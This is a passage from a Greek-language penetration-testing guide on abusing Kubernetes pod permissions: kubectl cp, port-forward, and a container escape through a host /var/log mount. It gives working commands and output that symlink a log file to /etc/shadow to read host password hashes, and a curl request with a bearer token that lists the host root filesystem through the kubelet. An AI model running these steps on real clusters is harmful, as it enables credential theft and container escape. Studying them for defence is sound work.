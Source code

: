 Αν είναι ένα distroless κοντέινερ, μπορείτε να δοκιμάσετε να χρησιμοποιήσετε **shell builtins** για να αποκτήσετε πληροφορίες για τα κοντέινερ ή να ανεβάσετε τα δικά σας εργαλεία όπως ένα **busybox** χρησιμοποιώντας: **`kubectl cp </path/local/file> <podname>:</path/in/container>`**.

### port-forward

Αυτή η άδεια επιτρέπει να **προωθήσετε μία τοπική θύρα σε μία θύρα στο καθορισμένο pod**. Αυτό προορίζεται για να μπορείτε να αποσφαλίσετε εφαρμογές που εκτελούνται μέσα σε ένα pod εύκολα, αλλά ένας επιτιθέμενος θα μπορούσε να το καταχραστεί για να αποκτήσει πρόσβαση σε ενδιαφέρουσες (όπως DBs) ή ευάλωτες εφαρμογές (ιστοσελίδες;) μέσα σε ένα pod:
```bash
kubectl port-forward pod/mypod 5000:5000
```
### Hosts Writable /var/log/ Escape

As [**indicated in this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html), αν μπορείτε να έχετε πρόσβαση ή να δημιουργήσετε ένα pod με το **hosts `/var/log/` directory mounted** σε αυτό, μπορείτε να **escape from the container**.\
Αυτό συμβαίνει βασικά επειδή όταν ο **Kube-API προσπαθεί να πάρει τα logs** ενός container (χρησιμοποιώντας `kubectl logs <pod>`), **ζητά το `0.log`** αρχείο του pod χρησιμοποιώντας το `/logs/` endpoint της υπηρεσίας **Kubelet**.\
Η υπηρεσία Kubelet εκθέτει το `/logs/` endpoint το οποίο βασικά **εκθέτει το `/var/log` filesystem του container**.

Επομένως, ένας επιτιθέμενος με **πρόσβαση για εγγραφή στον φάκελο /var/log/** του container θα μπορούσε να εκμεταλλευτεί αυτή τη συμπεριφορά με 2 τρόπους:

- Τροποποιώντας το `0.log` αρχείο του container του (συνήθως τοποθετημένο στο `/var/logs/pods/namespace_pod_uid/container/0.log`) ώστε να είναι ένα **symlink που δείχνει στο `/etc/shadow`** για παράδειγμα. Στη συνέχεια, θα μπορείτε να εξάγετε το αρχείο shadow των hosts κάνοντας:
```bash
kubectl logs escaper
failed to get parse function: unsupported log format: "root::::::::\n"
kubectl logs escaper --tail=2
failed to get parse function: unsupported log format: "systemd-resolve:*:::::::\n"
# Keep incrementing tail to exfiltrate the whole file
```
- Αν ο επιτιθέμενος ελέγχει οποιοδήποτε κύριο με **δικαιώματα να διαβάσει `nodes/log`**, μπορεί απλά να δημιουργήσει ένα **symlink** στο `/host-mounted/var/log/sym` προς το `/` και όταν **πρόσβαση στο `https://<gateway>:10250/logs/sym/` θα καταγράψει το ριζικό** σύστημα αρχείων των hosts (η αλλαγή του symlink μπορεί να παρέχει πρόσβαση σε αρχεία).
```bash
curl -k -H 'Authorization: Bearer eyJhbGciOiJSUzI1NiIsImtpZCI6Im[...]' 'https://172.17.0.1:10250/logs/sym/'
<a href="bin">bin</a>
<a href="data/">data/</a>
<a href="dev/">dev/</a>
<a href="etc/">etc/</a>
<a href="home/">home/</a>
<a href="init">init</a>
<a href="lib">lib</a>
[...]
```
**Ένα εργαστήριο και μια αυτοματοποιημένη εκμετάλλευση μπορούν να βρεθούν στο** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)
